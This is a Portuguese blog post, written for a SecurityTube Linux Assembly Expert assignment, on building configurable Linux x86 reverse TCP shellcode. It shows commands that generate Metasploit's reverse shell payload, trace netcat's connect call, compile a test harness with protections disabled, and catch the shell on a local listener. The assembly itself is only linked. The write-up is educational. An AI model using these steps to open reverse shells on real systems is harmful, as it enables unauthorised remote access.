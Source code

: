 ```yaml
---
layout: post
title: SLAE - 2nd Assignment - Shell Reverse TCP
date: '2013-03-20T00:40:00.000-03:00'
author: geyslan
categories: blog
excerpt:
tags: [slae, shellcode, linux, code, assembly, hacking, reverse engineering, portuguese]
share: true
modified: '2013-06-06T22:44:21.128-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-1069667985052517024
blogger_orig_url: http://www.hackingbits.com/2013/03/slae-2nd-assignment-shell-reverse-tcp.html
---
```


*/\*<br>
Este post é uma sequência. Para melhor entendimento, vejam:<br>
[SLAE - 1st Assignment - Shell Bind
TCP](/slae-1st-assignment-shell-bind-tcp.html)<br>
[Hacking do Dia - Shell Bind TCP Random Port](/hacking-do-dia-shell-bind-tcp-random.html)<br>
\*/*

<!--more-->

*This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:*

*[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)*

*Student ID: SLAE-237*

*Códigos deste post estão no [GitHub](https://github.com/geyslan/SLAE/tree/master/2nd.assignment)*.

*\<UPDATE\><br>
O [shellcode](http://shell-storm.org/shellcode/files/shellcode-833.php) final
deste post foi aceito no repositório [Shell-Storm](http://www.shell-storm.org/).<br>
Tks Jonathan Salwan.<br>
\</UPDATE\>*

##Segundo Exame

###Criar um shellcode de Shell Reverse TCP

- Executar um shell ao conectar no host reverso.
- Tornar fácil a configuração dos IP e porta.

Como material, analisar o linux/x86/shell_reverse_tcp do Metasploit usando o libemu.

##libemu - sctest - strace - man

Comecei gerando o fluxograma do shellcode do Metasploit.

{% highlight console %}
$ msfpayload linux/x86/shell_reverse_tcp LHOST=127.0.0.1 R | /opt/libemu/bin/sctest -Ss 100000 -vvv -G shell_reverse_tcp_metasploit.dot

$ dot shell_reverse_tcp_metasploit.dot -T png -o shell_reverse_tcp_metasploit.png
{% endhighlight %}

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/2nd.assignment/shell_reverse_tcp_metasploit.png" caption="Fluxograma do shell_reverse_tcp_metasploit" %}

Vê-se que, diferentemente dos shell_bind_tcp nos quais trabalhamos nos posts
anteriores, o shell_reverse_tcp, logo após a criação do socket (socket), faz a
duplicação (dup2) dos files descriptors e já efetua a conexão (connect) nos
endereço e porta definidos para finalmente executar (execve) o "/bin/sh".

Usei também o [strace](http://linux.die.net/man/1/strace) para analisar o
[netcat](http://linux.die.net/man/1/nc), como complemento ao libemu. O que me me
poupou tempo, pois não precisei reconstruir o binário para entender melhor a
syscall [connect](http://linux.die.net/man/3/connect); e nem é necessário
comentar que o uso do man deixou o meu .bash_history um pouquinho mais gordo. =D

{% highlight console %}
$ nc -l 127.0.0.1 55555
{% endhighlight %}

Em outro terminal.

{% highlight console %}

# strace -e socket,connect nc 127.0.0.1 55555
...
socket(PF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(55555), sin_addr=inet_addr("127.0.0.1")}, 16) = -1 EINPROGRESS (Operation now in progress)
{% endhighlight %}

Com as novas informações anotadas e revisadas, construí de primeira o shellcode
enxuto em assembly nasm.

{% gist geyslan/5201682 %}

Por conta da possibilidade trivial de se configurar a porta e o IP, o shellcode
só estará livre de null-bytes caso esses valores não tenham numeração em hexa
x00. Entretanto, se o null-byte realmente impossibilitar a utilização do
shellcode, temos outras maneiras de darmos bypass. Em próximos posts veremos
isso.

O shellcode final teve um aumento de 4 bytes, ficando com  72 (metasploit = 68).
Esse acréscimo se deu pela propriedade da configuração do IP e da Porta nos seus
primeiros bytes. Mesmo com as instruções diferentes, o resultado foi igual.
Vejam.

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/2nd.assignment/shell_reverse_tcp.png" caption="Fluxograma do shell_reverse_tcp" %}

###Testando

{% highlight console %}
$ gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellcode
{% endhighlight %}

*Terminal host*
{% highlight console %}
$ nc -l 127.1.1.1 55555
{% endhighlight %}

*Terminal cliente*
{% highlight console %}
$ ./shellcode
{% endhighlight %}

*Terminal host novamente*
{% highlight console %}
$ netstat -anp | grep shell
tcp        0      0 127.0.0.1:51600   127.1.1.1:55555   ESTABLISHED   976/shellcode
{% endhighlight %}

##Reversing (Gotcha)

Mais um shellcode construído: Shell Reverse TCP (Linux/x86) com IP e porta
facilmente configuráveis (segundo ao quinto e nono ao décimo byte,
respectivamente).

*P.S.* Se você encontrar alguma forma de reduzir a quantidade de bytes do
shellcode apresentado, entre em contato para discutirmos. Com todo prazer,
farei as alterações colocando os devidos créditos.

*[]*

##Mais Informações

[SLAE - SecurityTube Linux Assembly Expert](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br>
[libemu](http://libemu.carnivore.it/)<br>
[Metasploit](http://www.metasploit.com/)<br>
[Metasploit Unleashed - Offensive Security](http://www.offensive-security.com/metasploit-unleashed/Main_Page)<br>
[Berkeley Sockets](https://en.wikipedia.org/wiki/Berkeley_sockets)<br>
[Shell-Storm](http://www.shell-storm.org/)<br>
[exploit-db](http://www.exploit-db.com/)<br>
[Project Shellcode](http://www.projectshellcode.com/)<br>
[Endianness](https://en.wikipedia.org/wiki/Endianness)<br>
[Linux Assembly](http://asm.sourceforge.net/)<br>
[Introdução à Arquitetura de Computadores - bugseq team - Tiago Natel (i4k)](https://code.google.com/p/bugsec/wiki/AssemblyArqComp)<br>
[Construindo Shellcodes - Victor Mello (m0nad)](http://0fx66.com/files/zines/cogumelo-binario/edicoes/1/ConstruindoShellcodes.txt)<br>
[Understanding Intel Instruction Sizes - William Swanson](http://www.swansontec.com/sintel.html)<br>
[The Art of Picking Intel Registers - William Swanson](http://www.swansontec.com/sregisters.html)<br>
[Smashing The Stack For Fun And Profit - Aleph One](http://insecure.org/stf/smashstack.html)<br>
[Get all shellcode on binary - commandlinefu](http://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)<br>
